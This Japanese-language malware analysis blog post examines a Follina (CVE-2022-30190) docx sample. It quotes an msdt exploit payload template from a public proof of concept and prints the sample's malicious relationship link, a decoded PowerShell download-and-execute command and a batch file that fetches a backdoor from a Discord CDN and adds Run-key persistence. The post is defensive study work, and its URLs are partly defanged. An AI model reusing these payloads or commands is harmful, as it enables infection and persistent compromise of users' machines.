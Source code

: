     # 今更だけどFollinaをみてみる

6月に公開されて大騒ぎになったFollinaを今更見てみたいと思います。  
いや、もうパッチも当たってるしいらないよ、て話もあるかもしれませんが、まぁ時間があればお付き合いください。  

話を始める前に、まずはFollinaについてかいつまんで説明します。  

### Follinaって？

`CVE-2022-30190`で管理されている脆弱性です。Windowsでは診断ツールとして`msdt`というものがありますが、これの脆弱性です。  

で、重要なことはこの診断ツールを呼び出す様な処理はオフィスからも可能、ということです。  
これが怖いのは、マクロと違い、保護ビューとかそんなのは関係なく動いてしまうことにあります。試してはいないのですが、RTF形式ではプレビューで見るだけで感染するようですね。まぁ診断ツールですからそれだけで動くのは想像できます。  

### どうやって悪用するの？

山ほどPOCコードがありますので、それを見るのが一番理解ができると思います。  
例えば、以下です。  
https://github.com/chvancooten/follina.py

該当の個所を見ると以下ですね。これはpowershellのbase64コマンドを埋め込むときのイメージです。  
Note: encoded_commandに悪性のbase64コマンドを埋め込みます。  

```python
payload = fr'''"ms[-]msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke[-]Expression($(Invoke[-]Expression('[System[.]Text[.]Encoding]'+[char]58+[char]58+'Unicode[.]GetString([System[.]Convert]'+[char]58+[char]58+'From[Base64]String('+[char]34+'{encoded_command}'+[char]34+'))'))))i[/../../../../../../../../../../../../../../]Windows/System32/mpsigstub[.]exe\""'''
```

こういったコマンドを、`word/_rels/document.xml.rels`などのファイルに埋め込みます。  
ちなみにmsdt.exeに直接渡してもできるかな、と思って試しましたが、Defenderでブロックされました。Defenderを止めても動作せず。まぁ修正されてることが確認できたと考えましょう。  

![失敗画像](https://raw.githubusercontent.com/proshiba/analysis/main/follina/images/msdt01.png)

### 本番。検体を見てみる。  

今回、検体を見てみるうえで以下をチェックしました。
`432bae48edf446539cae5e20623c39507ad65e21cb757fb514aba635d3ae67d6`  
https://www.virustotal.com/gui/file/432bae48edf446539cae5e20623c39507ad65e21cb757fb514aba635d3ae67d6/details

このファイルは、malwarebazaarに上がっていたので、検体をダウンロードして内容を見てみます。  
ちなみにこのファイルはdocxですが、オフィスファイルは実はzip圧縮ファイルなので、zipとして解凍ができます。  
ということで、ファイルをダウンロードして解凍してみました。  

```bash
$ ls -la
total 24
drwxr-xr-x 5 kali kali 4096 Jul 11 12:54  .
drwxr-xr-x 3 kali kali 4096 Jul 11 12:54  ..
-rw-r--r-- 1 kali kali 1458 Jan  1  1980 '[Content_Types].xml'
drwxr-xr-x 2 kali kali 4096 Jun 14 21:43  _rels
drwxr-xr-x 2 kali kali 4096 Jun 14 21:43  docProps
drwxr-xr-x 6 kali kali 4096 Jun 14 21:43  word
```

大体こんな感じのファイル形式をしています。さて、まずは文字列情報を全て取って１つのテキストに保存してみましょう。   

```bash
grep -E ".*" -r ./* >> allstrings.txt
```

grepですべての文字列にマッチさせ、recurseで全ファイル対象としてます。  
この中のファイルを追加で見てみると、以下がありました。このdiscordのURLが悪性でしょう。こんなのはいるはずないですからね。  

対象ファイル: ./word/_rels/document.xml.rels  
```
～省略～
<Relationship Id="rId5" Type="hxxp://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="hxxps://cdn.discordapp.com/attachments/986484515985825795/986821210044264468/index.htm!" TargetMode="External"/>
～省略～</Relationships>
```

こうなったらこのdiscordにアクセスしたいのですが、非常に残念なことにすでに403でアクセス不可でした。そのため、今度はvirustotalの動的解析情報を見ます。(一応言っておきますが、本来はこっちを先に見ます。ここで有益な情報見れるのにわざわざ検体見る必要ないですからね)  

そうすると、とても興味深いプロセス起動情報がございました。  

![virustotal情報](https://raw.githubusercontent.com/proshiba/analysis/main/follina/images/virustotal01.png)

以下のようなpowershell起動がありますが、これはさすがにありえないですね。base64コマンドを実行してます。今度はこの中身を見てみましょう。  

```powershell
(Invoke-Expression($(Invoke-Expression('[System[.]Text[.]Encoding]'+[char]58+[char]58+'UTF8[.]GetString([System[.]Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SW52b2tlLVdl～省略～GFza3NcV29yZC5leGUgOw=='+[char]34+'
```

この省略したbase64コマンドの中身を見てみると、今度は以下のコマンドになってます。またdiscordですね。。

```powershell
Invoke-WebRequest hxxps://cdn[.]discordapp[[.]]com/attachments/986484515985825795/986495733295374366/cd[.]bat -OutFile C:\Windows\Tasks\cd[.]bat ; Start-Process  -WindowStyle Hidden 'C:\Windows\Tasks\cd[.]bat' ; Invoke-WebRequest hxxps://cdn[.]discordapp[[.]]com/attachments/986484515985825795/986484659363930122/Word[.]exe -OutFile C:\Windows\Tasks\Word[.]exe; C:\Windows\Tasks\Word[.]exe ;
```

さて、次です。この`word.exe`と`cd.bat`をそれぞれダウンロード、と行きたいところですが残念ながらword.exeは403でアクセスできず。  

cd.batは以下となってました。  
```bat
@echo off
%WinDir%\syswow64\windowspowershell\v1[.]0\powershell[.]exe -WindowStyle Hidden -Command "Invoke-WebRequest hxxps://cdn[.]discordapp[.]com/attachments/986484515985825795/986489283969953802/1c9c88f811662007[.]docx -OutFile C:\\users\$env:USERNAME\Downloads\18562[.]docx ;taskkill /f /im msdt[.]exe ; taskkill /f /im WINWORD[.]EXE; Start-Process C:\\users\$env:USERNAME\Downloads\18562[.]docx ;reg add 'HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run' /V 'Word' /t REG_SZ /F /D 'C:\\Windows\\Tasks\\Word[.]exe'; rm C:\Windows\Tasks\cd[.]bat;"
```

面白いことに追加でまたdocxファイルをダウンロードしてます。これはダミーのファイルでしょうね。ダウンロード後にファイル開いてますし。ハッシュをとってみたところ、以下でした。検知は0。  

https://www.virustotal.com/gui/file/e3af143ba12209fafdc3089a740d23faf59f6f1508c00d8f56f8cc9d0c8ebf89

最後に以下のレジストリに追加することで永続性を付与してます。  
パス: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
キー: Word
値: C:\\Windows\\Tasks\\Word.exe

後は後始末として`msdt.exe`などのプロセス停止や`cd.bat`の削除などです。これでマルウェア感染の初期は終了となります。  

結局この`word.exe`がペイロード、ということですね。残念ながらこのファイルは既にダウンロードできないため、詳細不明。ここで解析は終了とさせていただきます。

### 関連情報

最後に、discordを使っているのが面白いと思いましたのでちょっと見てみたところ、既に情報が出てました。

https://thehackernews.com/2022/07/hackers-exploiting-follina-bug-to.html

どうやら、このword.exeは`Rozena Backdoor`だったようですね。
中々面白いものとなってました。こういう重大な脆弱性でも、パッチを適用しない（そもそもセキュリティアップデートやニュースをみない）人が多いのがこの世の中ですし、今後もちょくちょく使われるんだろうな、と思わされますね。  

今回は、これで終了となります。ありがとうございました。

